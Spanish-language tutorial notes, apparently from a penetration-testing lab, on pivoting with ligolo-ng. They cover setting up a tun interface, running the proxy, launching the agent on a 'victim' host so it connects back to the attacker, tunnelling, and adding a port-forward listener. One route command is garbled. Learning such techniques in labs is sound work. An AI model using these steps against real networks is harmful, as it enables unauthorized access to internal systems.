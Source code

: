 w### Crear interfaz de red
creamos la interfaz de red que usaremos para configurar el proxy:
```
bash$ > sudo ip tuntap add user $USER mode tun ligolo
```

A su ves, tenemos que levantar la interfaz de red para que este operativa:
```
bash$ > sudo ip link set ligolo up
```
---------
### Añadimos las rutas
Usamos el siguiente comando para añadir el segmento de red:
```
bash$ >us.
```
---------
### Corremos ligolo
El siguiente comando inicia ligolo y agregamos una bandera para que ignore certificado(todo esto desde nuestra maquina):
```
bash$ > ./proxy -selfcert
```

Desde la maquina victima vamos a correr el Agente de la siguiente manera:
```
bash$ > ./agent -connect <nuestra-ip>:<puerto-ligolo> -ignore-cert
```
-------
### Iniciar el tuneleo
Una vez hecho lo anterior, desde nuestra maquina vamos a recibir un mensaje de que un nuevo agente se ha unido, es aqui cuando tenemos que ejecutar los siguientes comandos:
```
ligolo-ng » session
? Specify a session : 1 - www-data@inlanefreight.local - 10.129.201.127:48280
[Agent : rijaba@WebServer] >> start
```

### Port Forwarding
Haciendo la anterior ya tendriamos conectividad con el segmento de red que de antes no alcanzabamos, pero, ellos a nosotros no, lo que podemos hacer para que esto sea posible es hacer un port forwarding:
```
[Agent : rijaba@WebServer] >> listener_add --addr 0.0.0.0:8080 --to 127.0.0.1:80
```

Podemos ver la lista de listenners  :
```
[Agent : www-data@inlanefreight.local] » listener_list
┌────────────────────────────────────────────────────────────────────────────────────┐
│ Active listeners                                                                   │
├───┬──────────────────────────────┬────────────────────────┬────────────────────────┤
│ # │ AGENT                        │ AGENT LISTENER ADDRESS │ PROXY REDIRECT ADDRESS │
├───┼──────────────────────────────┼────────────────────────┼────────────────────────┤
│ 0 │ www-data@inlanefreight.local │ 0.0.0.0:8080           │ 127.0.0.1:80           │
└───┴──────────────────────────────┴────────────────────────┴────────────────────────┘
```

